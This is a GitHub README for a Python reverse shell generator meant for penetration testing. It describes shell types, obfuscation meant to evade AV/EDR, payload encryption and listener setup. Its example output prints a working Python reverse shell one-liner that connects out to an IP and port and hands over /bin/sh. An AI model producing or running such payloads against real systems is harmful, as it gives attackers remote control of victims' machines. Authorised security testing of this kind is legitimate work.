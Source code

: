 # README for Reverse Shell Generator

## Overview
This tool is a versatile reverse shell generator designed to assist cybersecurity professionals and ethical hackers in setting up reverse shells for penetration testing and red teaming activities. It supports multiple languages and includes features like Base64 encoding, shell obfuscation, and encryption to bypass security measures.

## Features
- **Multiple Reverse Shell Languages**: Supports Bash, Python, PHP, Perl, Ruby, PowerShell, Netcat, UDP Bash, HTTP Python, and ICMP Python.
- **Base64 Encoding**: Encodes the generated shell for easy transfer.
- **Shell Obfuscation**: Obfuscates the shell to bypass basic AV/EDR systems.
- **Encryption**: Encrypts the shell payload using AES or RSA encryption.
- **TTY Shell Upgrade**: Provides commands to upgrade the shell to a TTY shell.
- **Listener Setup**: Automatically sets up a listener using Metasploit or Netcat.

## Installation
1. Clone the repository:
   ```bash
   git clone https://github.com/S2K7x/revshell.py
   cd reverse-shell-generator
   ```

2. Install the required dependencies (if any):
   ```bash
   pip install -r requirements.txt
   ```

## Usage
1. Run the script:
   ```bash
   python revshell.py
   ```

2. Follow the on-screen instructions to generate a reverse shell.

### Example
```bash
[*] Detected local OS: Linux

[*] Enter target IP: 192.168.1.100
[*] Enter target port: 4444

Available reverse shells:
1. bash
2. python
3. php
4. perl
5. ruby
6. powershell
7. nc
8. udp_bash
9. http_python
10. icmp_python

[*] Enter the reverse shell language/type (number): 2
[*] Do you want to Base64 encode the shell? (y/n): y
[*] Do you want to obfuscate the shell? (y/n): n
[*] Do you want to encrypt the shell communication (AES/RSA)? (aes/rsa/none): none

[+] Generated Reverse Shell for python:

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.100",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'

[*] Generate another reverse shell? (y/n): n
[*] Exiting...
```

## Configuration
- **Encryption**: The tool supports AES and RSA encryption. For RSA, ensure you have the `public_key.pem` file in the same directory.
- **Listener**: The tool uses Metasploit for setting up listeners. Ensure Metasploit is installed and properly configured.

## Dependencies
- Python 3.x
- Metasploit Framework (for listener setup)
- OpenSSL (for encryption)

## Contributing
Contributions are welcome! Please open an issue or submit a pull request.

## License
This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Disclaimer
This tool is intended for educational and ethical hacking purposes only. Unauthorized access to computer systems is illegal. Use this tool responsibly and only on systems you own or have explicit permission to test.

---

Thank you for using the Reverse Shell Generator! If you have any questions or need further assistance, please don't hesitate to contact us.
